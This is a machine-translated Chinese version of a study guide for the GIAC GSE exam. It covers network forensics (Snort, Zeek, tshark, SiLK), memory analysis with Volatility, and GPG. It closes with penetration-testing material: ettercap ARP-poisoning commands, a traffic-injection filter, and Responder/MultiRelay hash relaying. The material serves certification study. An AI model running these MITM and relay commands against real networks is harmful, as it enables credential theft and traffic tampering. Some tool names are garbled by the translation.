



# GIAC 安全专家学习指南:第二部分

> 原文：<https://medium.datadriveninvestor.com/study-guide-for-the-gse-giac-security-expert-part-2-d7b30ddd5845?source=collection_archive---------3----------------------->

## 学习网络安全取证分析以及黑客技术。本指南适用于学习 GIAC 安全专家认证。

欢迎来到 GIAC 安全专家( [GSE](https://www.giac.org/certification/security-expert-gse) )认证之旅三部分系列的第二部分。如果你正在寻找[第一部分](https://medium.com/@dw.chow/study-guide-for-the-gse-giac-security-expert-part-1-da6ca4e4da7a)或者希望了解更多关于我们如何设置谷歌云计算 VPS 和 Colab Jupyter 笔记本的信息，请使用[这个链接](https://medium.com/@dw.chow/study-guide-for-the-gse-giac-security-expert-part-1-da6ca4e4da7a)。在本指南中，我们将关注一些工具和用例，这些工具和用例并不总是被辩护分析师使用，因为它们不在渗透测试项目中。

在 GSE 中，您将接受 GCIH 基础测试，其中包括基本的工具使用。你不必掌握每一个工具，但是你应该能够以它们的基本形式运行它们，并且能够识别它们留下的工件。根据 GSE 官方文件[将使用 Kali 2018.1](https://www.giac.org/pdfs/kali-tools.pdf) 。当你准备练习环境时，记住这一点非常重要，因为从 2018 年到今天的 2020 年形象的滚动发布有巨大的变化。不同的工具版本和位置差异很大。请确保您仅在 [Kali 2018.1 映像](http://old.kali.org/kali-images/kali-2018.1/)的环境中模拟、下载和使用工具。

[**第三部分**](https://dwchow.medium.com/study-guide-for-the-gse-giac-security-expert-part-3-52d6798b45f0)【2022 年 7 月 16 日更新】关于考试的实验室部分和我的成绩的提示

## 有效分析方法

本指南无法全面涵盖 ATT[CK&MITRE](https://attack.mitre.org/)框架中的单一 TTP 路径。然而，我将涵盖一些容易难倒分析师的常见领域，以及如何通过使用 GSEC、GCIA 或 GCIH 材料中不总是涵盖的一些选项或功能来最大限度地提高您的考试时间效率。在实验室或资格考试中，最好的办法是保持冷静，思考完成任务的最佳自动化工具。您亲自参与的任务或练习可能包括指纹识别、规则创建、常见攻击、缓冲区溢出或枚举。

不要犯这样的错误，立即去找你最喜欢的或者肌肉键盘记忆工具。例如，你可能会得到一份 PCAP 的文件，并被告知要对所发生的一切写一份报告。一些分析师陷入默认的学生模式，并打开 tcpdump 或 wireshark，这并不总是最好的选择。还有哪些工具可用？至少你有 Kali 2018.1GSE 版本的默认设置。在实验室或限定器中，您*可以*使用 Snort 或 Bro(现在称为 Zeek ),它们可以帮助您根据预期使用或获得的虚拟机进行自动指纹识别和初始分析。我还将为您提供一些脚本和一行程序，当这些工具在您的实验室或资格考试练习中需要帮助时，它们可以作为替代。让我们开始吧。

## 流量模式指纹

你一定会得到 PCAP 的，日志，和现场交通处理。了解您的 GSEC、GCIA 和 GCIH 的目标；你可以相信 PCAP 是你考试和实验室里的一个简单的主食。让我们假设你首先得到一个 pcap 或在线实时流量。让我们考虑一些工具来分析这种类型的文件，以提示您从哪里开始并确定一些优势:

*   Snort:快速识别 pcaps 和实时流量中的恶意数据包/负载
*   Bro (Zeek):识别数据包流、有效负载和实时流量的违规上下文
*   Xplico:用于 PCAP 和实时流量的多文件和流解析器(在 CLI 中使用)
*   最重要的:可以识别文件和提取 PCAP 流
*   Silk Suite:内置的 RW 工具可以将 Pcaps 转换成流并分析字节模式
*   Wireshark:直观地查看数据包和流的层次结构和时间线，并可以导出一些 SMB/CIFS 和 HTTP 目标文件
*   Tshark:功能相同，但在 CLI 中，可以快速导出为 CSV 或其他格式，供其他工具接收

*多任务注意:*我喜欢做的事情之一就是利用 GNOME 工作区。在您的虚拟机中，您可以使用“CRTL+向上或向下移动箭头”在默认的 1 和 2 工作区之间移动。这样，您可以通过分析类型和功能来组织不同的终端窗口。

## **放风**

假设它可能安装在您使用的虚拟机上；您肯定可以利用内置的社区规则和预处理器来帮助更容易地缩小您正在寻找的内容。

```
#Output 'fast' alert to console from interface live traffic and output to plain txt log
snort -A console -i <iface> -c /path/to/snort.conf -K ascii -l /path/to/log/foo

#Output 'full' alert and debug to console from pcap, do not log
snort -A cmg -r /path/to/pcap -c /path/to/snort.conf

#Default snort package path locations
/etc/snort.conf
/var/log/snort

#Finding files to use
find -name / -type f "snort.conf"
which snort
```

出于演示目的，我只使用默认的社区规则和 snort.conf。如果出于任何原因，您的 snort.conf 损坏或无法在运行时工作，这里是我在 Kali 2018.1 映像上使用的一个，您可以在这里获取。

*对于 Windows 10 用户:*无论出于什么原因，如果你希望使用 Windows 来做你的分析，我有一个调整库、配置和规则预设置的工作集，你可以使用我提供的安装程序，然后从它们的默认位置复制/粘贴和覆盖现有的目录。这在 2020 年 3 月生效，因此所有 VRT 社区规则和 ET 社区规则都是在那个时候制定的。你可以从我的 Google Drive [这里](https://drive.google.com/drive/folders/1SCFYXgNir03DB-FA9R4o8QEBW-qXhuKI?usp=sharing)获取它们。

我将以服务枚举参数为例运行 Nmap，看看会出现什么情况:


如您所见,“nmap -sV <target>”交换机的标准模式启动 ping 扫描，然后是其默认端口集。要在 nmap 扫描中查看哪些端口由[默认](https://nmap.org/book/nmap-services.html)运行，您可以在/etc/services 下和 windows c:\ windows \ system32 \ drivers \ etc \ services 中找到它们。</target>


上面，我们在“cmg”模式下重新运行 snort alert，这是一种仅控制台的完全警报模式，它提供了有关触发的有效负载的更多详细信息，就像您在 tcpdump 上做了更多详细工作一样。如果您需要引用一个特定的有效负载来进行进一步的分析，而又不丢弃/var/log/snort 中的日志文件，这将非常有用。

## **Snort 规则注意事项**

snort 规则没有错；然而，就像任何分析过程一样。你不能完全依赖自动化的单一解决方案。我们将展示流量模式中的一些差异，这些差异在没有任何网络堆栈修改的情况下不会触发非常常见的规则。考虑以下两条规则。从技术上讲，它们都应该在 frag stealth 打开的情况下，在平均 nmap 服务枚举扫描中触发。

```
#alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"ET SCAN NMAP -f -sV"; fragbits:!M; dsize:0; flags:S,12; ack:0; window:2048; threshold: type both, track by_dst, count 1, seconds 60; reference:url,doc.emergingthreats.net/2000545; classtype:attempted-recon; sid:2000545; rev:8; metadata:created_at 2010_07_30, updated_at 2010_07_30;)

alert http $HOME_NET any -> any any (msg:"ET SCAN Possible Nmap User-Agent Observed"; flow:to_server,established; content:"|20|Nmap"; http_user_agent; fast_pattern; metadata: former_category SCAN; classtype:web-application-attack; sid:2024364; rev:3; metadata:affected_product Any, attack_target Client_and_Server, deployment Perimeter, signature_severity Informational, created_at 2017_06_08, performance_impact Low, updated_at 2017_06_13;)
```

让我们运行它，看看我们能找到什么；我已经在 [PFsense](https://www.pfsense.org/) 中运行了这些规则。


我们看到其中一个被触发，但另一个没有。让我们打开 wireshark，进一步研究一下。


```
#alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"ET SCAN NMAP -f -sV"; fragbits:!M; dsize:0; flags:S,12; ack:0; window:2048; threshold: type both, track by_dst, count 1, seconds 60; reference:url,doc.emergingthreats.net/2000545; classtype:attempted-recon; sid:2000545; rev:8; metadata:created_at 2010_07_30, updated_at 2010_07_30;)
```

当您将 2048 字节的窗口大小与 Kali 和/或 VMware 工作站堆栈中出现的 1024 字节的窗口大小进行比较时；这是不会触发的。我们还可以将 SYN 标志视为逗号中值为“12”的要求。让我们进一步探讨这到底意味着什么。

## 逐位屏蔽 BPF

在 Snort [手册](http://manual-snort-org.s3-website-us-east-1.amazonaws.com/node33.html#SECTION00468000000000000000)中，对于非有效负载选项，您指定标志，然后指定位掩码。逗号分隔符允许您创建十进制或字母标志名称表示的掩码:

```
#Formatflags:[!|*|+]<FSRPAUCE0>[,<FSRPAUCE>];

#Example

This example checks if just the SYN and the FIN bits are set, ignoring CWR (reserved bit 1) and ECN (reserved bit 2).alert tcp any any -> any any (flags:SF,CE;)
```

十进制(12)到二进制转换的值是:“0 0 0 0 1 1 0 0”，我们将使用它来覆盖并检查它的外观。根据文档，common 后面的掩码用于忽略这些位。这意味着我们在 BPF 中说:“tcp[13] & <mask value="">= <your first="" flag="">”作为掩码条件。让我们覆盖这一点，并进一步检查。</your></mask>


因此，根据我们的规则，用(S，12)作为标志选项可能看起来像下面的 BPF: (tcp[13] & [0x0C](https://ascii.cl/conversion.htm) = 0x2)。因此，我们希望确保 SYN 位始终使能(0x2 ),并且希望屏蔽掉(忽略)除 Push 和 Reset 标志之外的所有其他值。因此结果是 SYN 位总是被置位；但是我们也捕获(同步+推送，同步+RST，同步+推送+RST)组合。如果你对按位屏蔽(逻辑 AND 的)[感到生疏，这个指南](https://www.checksomebytes.com/blog/bit-masking-with-sticky-notes)对你来说是一个极好的视觉效果。

基于上述 wireshark pull，值组合很好，因为仅设置了 SYN 位，所以我们的非触发器本质上是由操作系统网络堆栈设置的 TCP 窗口大小，除非内核被重新编译以进行更改，或者在 Windows world 中注册表被调整。在我们的场景中也不是这样，我们把它归因于一个规则，这个规则可能不是一个好的候选规则或者太具体了。然而，同样糟糕的是我们的第二条规则，它非常依赖于字符串“Nmap”的快速模式匹配这很容易被绕过，或者数据包中的微小变化也可能导致 GSE 考官为您准备的假阴性。

[](https://www.datadriveninvestor.com/2020/06/29/cybersecurity-is-in-meltdown-heres-a-new-idea/) [## 网络安全正在崩溃，这里有一个新的想法|数据驱动的投资者

### 对于许多公司来说，网络安全策略是在安全系统和服务上花费数百万，遵循最佳…

www.datadriveninvestor.com](https://www.datadriveninvestor.com/2020/06/29/cybersecurity-is-in-meltdown-heres-a-new-idea/) 

## 工具特定的指纹特征

在不同的课件中，SANS 有时会提供一些脚注。如果你不读它们，你可能会错过细节。我从他们最近的考试中学到的一件事是，他们希望你知道工具如何运行的小细节和模式，以及它们在主机工件和流量模式中的样子。下面，我展示了案例 hp3，在这种情况下，攻击者伪造数据包“攻击”或脚本错误运行“hp3<host>-S ”,它只发送 syn 数据包。我没有遇到过好的 Snort 特征，因此检查这些特征很重要，这样您就可以快速找出什么是异常:</host>


运行空 SYN 扫描 hp3 默认情况下只在 TCP 端口 0 上发送。还要注意 TCP 窗口大小现在被设置为 512，尽管在我们之前的工具中我们看到的是 1024 字节。在[hp3](https://linux.die.net/man/8/hping3)手册中有趣的事情是，如果没有手动设置，窗口大小默认设置为 64 字节。根据数据包之间的时间和攻击机器源端口上的单个端口增量，我们还可以判断这是标准扫描还是其他快速连接尝试。在正常的应用重试中；它会有更多的超时，重试通常不会创建新的套接字尝试。它将重复使用相同的端口，而不是递增源端口。

## 要记住的其他攻击类型

GCIA 有大量经典的网络安全攻击，这些攻击可能会在考试中再次出现。尽管他们很容易被遗忘，但这可能是你幸运或不幸的情况。死亡 Ping、泪滴、标准碎片规避或插入都是需要记住的特定于数据包的场景。在实践中，考虑检查 pcaps 并深入到感兴趣的领域，了解 Wireshark 对操纵 RFC 规范之外的数据包的攻击场景的解释能力。

https://wiki.wireshark.org/SampleCaptures

## 兄弟(齐克)

Bro 也是一个优秀的 Snort 替代品，因为它是一个基于框架的 IDS。这非常类似于 Snort 和 Silk RW 工具一起在许多日志输出上的流程。虽然对于检测可扩展性来说，它远不止这些，但是让我们使用我们内置的东西。我将读取一个 pcap 文件，这是已知的勒索软件 Win32/Maze 的 C2 流量。


语法非常简单；你不需要运行 broctl，你可以自己运行它。“兄弟-r ”和签名和兄弟脚本将输出到你运行它的文件夹中的日志。如果您希望为 IPFIX 流创建一个类似于“rwcut”的更整洁的外观，您可以使用工具“bro-cut”。如果没有安装 bro-cut，你可以在大多数发行版中安装 bro-aux。



使用[Corelight Bro Logs cheat sheet](https://github.com/corelight/bro-cheatsheets/blob/master/Corelight-Bro-Cheatsheets-2.6.pdf)找到您可能想要首先挖掘的地方，并使用 bro-cut 仅打印您想要的列。有时只是做一个“ls -lah *”。log”可以为您提供有用的提示，告诉您正在运行哪些协议来识别您的流量模式。如果没有安装 bro-cut，您可以根据需要选择标准卡特彼勒管道进行 sed、cut 和 awk 操作。

## 兄弟剧本

在考试或实验中，你可能会被要求修改或创建脚本。对于大多数候选人来说，snort 应该不是问题。使用 Bro，因为它是一个框架，如果你不每天使用它；你可能会有麻烦。以下是一个模板，用于在有效负载特定匹配时发出事件警报。基于内容故障排除，如果您觉得 Snort 签名不触发有问题，这可能是一个很好的备份:

```
signature my-first-sig {
    ip-proto == tcp
    dst-port == 80
    payload /.*root/
    event "Found root!"
}event signature_match(state: signature_state, msg: string, data: string)
```

如果您有兴趣为文件创建一个 PCAP，并且如果您的本地 bro 配置没有设置，您也可以手动执行“bro -r mypcap file_extraction.bro ”,这类似于其他工具，如 tcpxtract、chaosreader、foremost 和 xplico，我将在接下来的部分中重点介绍其中的一些工具。

## Xplico

该工具侧重于文件和流元提取。它不是一个完美的工具，GUI 也非常慢而且有很多问题。但是，它可以与其他带有自动分析的工作区屏幕配合使用，帮助您以更具视觉吸引力的方式理解数据。如果您已经查看了 PCAP，并注意到 Wireshark 的统计数据或层次结构中有大量协议，这可能是在您使用更多手动工具的同时使用 Xplico 为您提取文件和 IP 地理图的好时机。使用起来非常简单，运行作为服务器运行的 Xplico，并浏览到虚拟机上的本地端口 http:// < localhost > :9876。或者，您可以从命令行"[xplico-m pcap/output/files](http://wiki.xplico.org/doku.php?id=console_mode)运行它，或者在实时捕获的情况下运行" xplico -m rltm -i eth0 "


关于捕捉变化的传输和文件的可靠性。这不是我喜欢的工具，但总比不得不记住[文件的神奇数字](https://www.garykessler.net/library/file_sigs.html)并用手雕刻出来要好(你也应该准备这么做)。

## 最重要的

大多数 DFIR 分析师记得这个工具是从系统映像中雕刻文件的一个老的解决方案。但是它也可以处理有限容量的 PCAP 雕刻，这取决于类型。我想说，它仍然不如使用 Wireshark 和导出 HTTP 和 SMB 对象强大，但如果您有一些问题或者只想比较 Xplico 和 Wireshark 之间的结果，这可能是一个选项。如果您在一个文件夹中有多个 pcaps，它也是可脚本化的，这样会更容易一些。我在这里简单地提一下这个工具，如果您的 pcaps 有限，并且如果您打算更可靠地雕刻 SMB、TFTP 或 HTTP，我建议您考虑 Wireshark。除了我发现的二进制文件，它比 tcpxtract 更可靠。



foremost 的语法是“foremost -i <mypcapfile>-T”。又快又直。</mypcapfile>

## Silk 套件(流量数据/ RW 工具)

流量记录是推断项目的一种快速简单的方法。这不是为了深入分析，它可能会给你一些提示。如果给你一个 pcap，使用最自动化的 pcap 分析工具。如果你只有流量记录。这是你所拥有的。rwstats、rwfilter 和 rwcut 的用法有助于您准确解析您正在寻找的内容，如下所示:

```
#convert pcaps to silk compatible ipfix flows
rwptoflow ./mypcap.pcap --flow-out=./mypcap-flows.rw

#perform stats on the first five records
rwstats ./maze-flows.rw --fields=protocol --count=5

#grab fields you want based on flow data and limit by 10
rwcut ./maze-flows.rw --fields=sIP,dIP,sPort,dPort,protocol,bytes,flag,duration --num-recs=10

#filter based on criteria such as date and pipe it to rwcut printing the first 8 columns
rwfilter ./maze-flows.rw --pass=stdout --end-date=2020/07/08 | rwcut -f1-8
```


## Wireshark 和 Tshark

除了 tcpdump 之外，除了基本读取流之外，这些绝对是很好的工具。有一些很好的用例及特性，虽然不会涵盖所有；这里有一些特性可以帮助你摆脱困境，或者让你的分析更有效率。这里有一些用例一行程序，您可能会发现有助于您的分析:

```
#Regex filter on HTTP GET URI's 1-10 characters
tshark -r /path/mypcap.pcap -Y 'http && http.request.uri matches ".{1,10}"' 

#bash env variable wrapper in case you have IPython interpreter issues in Google Colab
regexstr=".{1,10}"
tshark -r /path/mypcap.pcap -Y "http.request.uri $regexstr"

#look at protocol statistics based on ports for TCP/UDP
tshark -r foo.pcap -z conv,tcp -z conv,udp -q

#simple display filter used in wireshark case sensitive
tshark -r /path/mypcap.pcap -Y "tcp contains "POST"#carve out http object files
tshark -r /path/mypcap.pcap --export-objects "http,/output/dir"#tshark to pre-process and pipe to geoip
tshark -r /path/mypcap.pcap -T fields -e ip.dst | sort -u | geoip#Export records to a CSV
tshark -i wlan1 -T fields -E separator=, -E quote=d -e _ws.col.No. -e _ws.col.Time -e _ws.col.Source -e _ws.col.Destination -e _ws.col.Protocol -e _ws.col.Length -e _ws.col.Info subtype probereq >testfile.txt
tshark -r test.pcap -T fields -e frame.number -e frame.time -e eth.src -e eth.dst -e ip.src -e ip.dst -e ip.proto -E header=y -E separator=, -E quote=d -E occurrence=f > test.csv
```

*将记录导出到 CSV*

我在 Kali 2018.1 版本中注意到的一件事是，Wireshark 在 GUI 中没有文件菜单选项来将整个数据包记录导出到 CSV。但是，Tshark 可以使用您选择的字段来完成。打印任何一组列的语法依赖于下面显示的字段过滤器。你可能需要一个 CSV，因为如果你最终在其他报告工具中使用它，它会毫无怨言。如果您在虚拟机和主机之间传输 CSVPowershell 内置的 Import-CSV cmdlet 对于后期处理来说是牛逼的。


*文件雕刻*

在 Wireshark 或 Tshark 中，您可以将文件刻录到任何给定的目录。该套件本身支持 HTTP、SMB、TFTP、IMF 和 DICOM。我做分析师的时候还没见过 IMF 用。我看过 [DICOM](https://www.ncbi.nlm.nih.gov/pmc/articles/PMC61235/#:~:text=The%20Digital%20Imaging%20and%20Communications,images%20and%20image%2Drelated%20information.) ，如果你没有在医疗保健行业工作过，这是生物医学模态机器中的一种常见成像协议。tshark 中的方法如下所示:



*GeoIP*

对于 Kali 2018.1 虚拟机的原生版本，即使 Wireshark 报告启用了 GeoIP 数据库路径，tshark 也不会让我解析 GeoIP 列字段，并且我在 Wireshark 中尝试的显示过滤器也不起作用。我也不指望它能在考试中发挥作用；不过，您确实有“geoip”命令，它引用了您可以在后处理中使用的标准数据库。我们使用 tshark 作为助手，并通过管道将其传输到 geoip，只有唯一的目的 ip。这对于确定你是否潜在地感染了恶意软件 C2 或数据泄露案例非常有用。


*视觉分析*

就像 tshark 可以使用“z”参数输出统计数据一样，您可以在 wireshark 的 GUI 中看到类似的情况，通过单击 statistics 菜单来帮助您缩小可能需要查看的位置，如下所示:


看起来在 nmap 探测中使用服务枚举函数检查了很多默认端口。


在同一个 pcap 上，我们查看协议层次结构，以确定我们的大部分流量位于何处，并列出所使用的协议类型。这将从自上而下的钻取点补充您的 tshsark 端点统计和流记录分析。

*防火墙规则*

有时我不记得 IPtables 和 chains 规则语法。大多数企业都没有使用 iptables 作为防火墙。但是它可能会出现在你的考试中，因为在你的《GSEC 与 GCIA》中肯定会提到。Kali 2018.1 中的 Wireshark 有一个规则提示器，可以根据它看到的流量提示您阻止或允许什么。


点击工具菜单，找到建议的防火墙 ACL 规则区域。在快速语法提醒的情况下非常漂亮。

*证件提取*

在以后的版本中；包括 Windows 在内，您也可以在工具中看到“凭据”提取。我无法让 Wireshark 提取包括 telnet 在内的最基本的协议交换。提取的鲁棒性根本不存在，我不会指望它在你的考试中。请考虑诸如 ettercap 或该隐和亚伯之类的工具。


## 通用主机取证

虽然 GSEC、GCIA 和 GCIH 不像 GCFA 那样关注内存或逻辑和物理主机映像；你可能会被要求分析图像或时间线。通常，您知道需要为手动表单中的日志做些什么——您正在运行 grep 并通过管道传输所有内容。或者在 powershell 中，您正在对 Format-Table 和 Get-WinEvent cmdlet 做类似的事情。因此，我们不会过多地关注日志解析，尽管我将在后面的小节中展示一些不错的 PowerShell one liners。让我们深入了解如何自动化以及如何处理逻辑主机和内存映像。

## 易失性记忆图像分析

在 GCIH 的后续版本中，您可能会遇到记忆成像基础分析的 rekall 或 Volatility。如果您不每天使用它或使用企业工具，那么在考试期间尝试“动态学习”要应用的内存语法和配置文件会变得有点麻烦。你不想那样。《T4》无记忆备忘单可能会有所帮助。让我们看看如何使用波动性，并从 NIST 获取一些示例图片:


提取后；假设我们对操作系统主机所在的映像一无所知。请注意，这需要很长时间，因为它会遍历图像的不同区域。如果为您提供了操作系统和补丁级别；不要在这里浪费时间等待结果。我们需要运行图像信息模块来确定使用什么配置文件，因为我们假装没有这些信息:


一旦建议了适当的配置文件，在这种情况下，我们知道我们运行的是 32 位 Windows Server 2003 plain，没有服务包或 r 2 版本。如果你没有运行这个程序，也不记得确切的标签是什么，那该怎么办？运行“volatility-info | grep-I‘A Profile for Windows’”来获取列表。


我喜欢运行的一个关键特性是时间线模块，并将其转储到某个文件中。volatility 的语法通常是“volatility-f<myimage>—profile<foo>module 2 run。让我们使用时间轴模块，以 UTC 格式从内存中获取有关主机的所有信息:</foo></myimage>


另一个非常有助于确定用户或恶意软件活动的模块是查看运行了什么。有些人喜欢立即启动“ps”模块，如“pslist、psscan 和 pstree ”,虽然它们是不错的起点。我想看看**完整的**语法跑。稍后，我总能追溯到一棵树或不同的 PID/PPID。为此，请运行“cmdline”模块。为了好玩，我运行了“剪贴板”模块，只是为了看看是否有从某个地方粘贴的密码。*你永远不知道！*


一些其他有用的模块，它们创建了您应该熟悉的某些输出，以防您被要求检查没有其他数据的“日志文件”；可能会要求您验证在分析工具中运行了哪个模块或命令。了解其他一些模块的输出会大大加快您的分析速度:


另一个不太常见的模块是“屏幕截图”模块，您也必须使用“volatility-f<myimage>—profile =<profilename>screen down—dump dir/tmp/foo”添加一个输出目录。它没有给你一个完整的截图，而是一个你可以在 GNOME 中显示的 GDI 线框。它显示标题和对象栏。从自上而下的角度来看，它给了你一些用户当时可能在做什么的线索。如果您能看到线框，这也有助于防止您在检查过程树或列表时遗漏关键细节。</profilename></myimage>


## 使用字符串的内存分析注意事项

除了波动性，字符串不仅仅是看二进制。您也可以在内存转储中运行它。然而，你可能会得到垃圾和非常有限的细节运行它。在我们的 windows 转储中，我们需要指定以“little endian”方式检查它，现在我们已经捕获了更有意义的项目，包括可能粘贴到记事本中的内容。SANS 的书会提到在 ASCII 和 Unicode 中使用字符串；但是我不记得他们在任何时候指定使用该架构:


## 使用解剖分析主机逻辑映像

尸检是侦探工具箱的一部分，是 DFIR 审查员的 GUI 前端。如果你有一个原始图像，这是一个很好的起点。GCFA 覆盖了命令行，只有使用效果更好；但对于 GSE 的目的，你可能不会有那种时间和层次的深刻雕琢和期待。你可能会得到一个预先创建的超级时间线，并被要求解析它。这可能就是您的 grep、awk、cut 和 windows PowerShell 技能发挥作用的地方。但是让我们假设你可能得到一个没有好的索引的原始图像。你现在只用一个卡利盒做什么？解剖它。


运行尸检并按照提示创建案例。从那里，您可以提取系统上留下的许多工件的时间线数据。请注意，这不是 GCIA、GSEC 或 GCIH 的重点，但可能会根据您在实验中的情景向您提问。

## 用 GPG 加密和签名

在 GSE 信息页面上，GPG 的使用与对称和非对称加密中的密钥创建一起列出。你也可能会被要求签署文件和档案。在转向笔测试和黑客技术之前，让我们快速地讨论一下这个问题。让我们从生成一些密钥开始。


输入正确的姓名和电子邮件，因为您将在稍后的密钥环管理中使用该名称和电子邮件。您可能还需要撤销密钥，或者在测试中被要求这样做。因此，如果您需要运行撤销，请使用“gpg —完整生成密钥”来代替。


使用“— list-keys”语法列出您在公共环中生成的密钥。用户电子邮件是您引用密钥的方式。正如你所看到的，我已经在下面的二月份创建了一些。我们可以运行输出和导出开关，将我的特定公钥导出给你希望交流的人。如果您需要将其导出为可以导入到其他实用程序中的普通 txt 文件，您需要使用“armor”开关:


现在让我们加密和解密一个简单的文本文件。我将触摸并回显输出到一个文件中。要使用内置密钥环中的私钥进行加密，请执行“gpg —输出加密文件. pgp —加密—接收方<target emai="">”。要解密它，请确保收件人有一份您的公钥的副本，使用相同的方法，但使用解密功能。公钥可以通过“gpg-import<senderskey.gpg>插入到您的钥匙圈中</senderskey.gpg></target>


同样，您可以通过在提示符下指定密码来使用对称加密。要做到这一点，只需 gpg-output<encryptedfile.gpg>-symmetric filetoencrypt . txt”。bash 中的一个 for 循环表明，不管使用 md5sum 的加密函数类型是什么，文件的完整性都保持不变。</encryptedfile.gpg>

# 一般渗透测试技能

作为 GCIH 的一部分，您学习了一般的黑客技术，并且您可能还记得您的实验室展示了一些工具。即使作为防守队员，你也应该能操作基本的红队工具和方法。我们将讨论一些更难的问题，我认为由于涉及到实际操作和实践，大多数分析师都有困难。让我们开始吧。通常，您可能希望记住 bash shell 历史、“ps -ef”工件、wtmp/utmp 和/var/log 消息。你也可以在每次进攻的时候运行 pcaps 来检查你作为防守者可以看到的额外练习。

## 中间人(MiTM)攻击

大多数分析师擅长使用 ettercap、cain 和 responder 基本用法。然而，扩展的功能有时也会被遗漏，例如 ettercap 过滤器，它可以作为一个“netsed”等价物，而不必使用网桥或 iptables，对于 Responder，大多数分析师不习惯于只手动破解哈希而不是中继。如果你想知道为什么我没有提到 bettercap 是因为我觉得它不是 GSE Kali 2018.1 映像中可用的工具。在后 MS08–067 时代，你需要知道传递散列不能在相同的原始受害者主机上重放；它必须被传递。我们也要设置它。让我们从 ettercap 开始。

## Ettercap

大多数情况下，您将使用“ettercap -G”和 ncurses GUI。然而，记住命令行语法也很重要，如果您的 GUI 一直崩溃，它可能会派上用场。一个有用的特性是，您还可以嗅探 pcap 的凭证。语法是:“ettercap -T -r mypcap.pcap”。


这里还有一些来自控制台的更多扩展使用案例:

```
#console search a pcap for passwords and display 3 lines before and after for connection details
ettercap -T -r mypcap.pcap | grep -i "pass*" -A3 -B3

#arp poisioning for all hosts on the subnet with MiTM option enabled
ettercap -T -M arp:remote //

#live capture on an iface with promisc mode and only display passwords and other critical details 
ettercap -Tzq -i eth0

#use ettercap plugin filter (compiled by etterfilter)
ettercap -T -M arp:remote // -M ARP /sourceip/ /targetip/ -F <myfilter.ef>

#compile en ettercap filter
etterfilter myfilter.txt -o myfilter.ef

#filter example http netsed replacement
#disable gzip encoding
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
	  # note: replacement string is same length as original string
      msg("removed Accept-Encoding!\n");
   }
if (ip.proto == TCP && tcp.src == 80) {
replace("img src=", "img src=\"http://www.xtecsystems.com/foo.png\" ");
replace("IMG SRC=", "img src=\"http://xtecresearch.cloud/foo.png\" ");
msg("url substituted.\n");
}

#filter example replace data on a packet
if (ip.proto == TCP && tcp.dst = 80) {
   if ( DATA.data == "foo" ) {
      replace(DATA.data, "bar")
```

## 回答者

Responder 一般的嗅探模式只是“responder -i eth0 -v”。如果 LLMNR 和 WPAD 不在您正在运行的本地网络上，继续并通过遵循到 IP responder 正在侦听的接口的 UNC 路径来强制您的连接。


如果你在屏幕上错过了，不要担心。您总是可以在默认的输出日志中找到它，比如/usr/share/responder/logs/下的 s


当然，传统的方式是在约翰福音中破解它们:


然而，在现代攻击中，你要传递凭证，而不是破解它。为此，您需要修改 responder.conf 来关闭 SMB 和 HTTP 嗅探服务。然后，您将使用相同的参数再次运行 Responder，并在单独的窗口中通过语法“python/usr/share/Responder/tools/multi relay . py-t<target to="" relay="" hashes="">-u<user you="" are="" targeting="">(或 use -u ALL)运行 Impacket MultiRelay.py，如下图所示:</user></target>


## 列举

